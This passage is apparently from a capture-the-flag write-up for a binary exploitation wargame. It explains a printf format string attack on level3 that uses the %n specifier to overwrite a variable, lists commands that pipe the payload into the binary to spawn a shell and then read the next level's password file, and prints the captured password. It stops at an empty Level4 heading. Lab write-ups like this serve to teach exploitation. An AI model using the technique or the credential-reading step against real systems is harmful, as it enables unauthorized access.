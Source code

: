 ![level3.png](ressource/level3.png)
### Solution:
- We cant overflow the buffer because they use ``fgets`` function.
- However, we can manipulate the function ``printf`` with the use of a special specifier.
- The ``%n`` specifier will write the number of character printed to the specified variable.
- We craft a payload that will print 0x40 character and then use the ``%n`` specifier to write the result on the ``m`` variable.
- ``python3 ./level3/craft_payload.py && scp -P 4243 ./payload level4@localhost:/tmp/payload``
- ``cat payload | ./level3`` (This spawn a shell as level4 user)
- ``cat /home/level4/.pass``
### Result:
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

## Level4:
### Code after RE: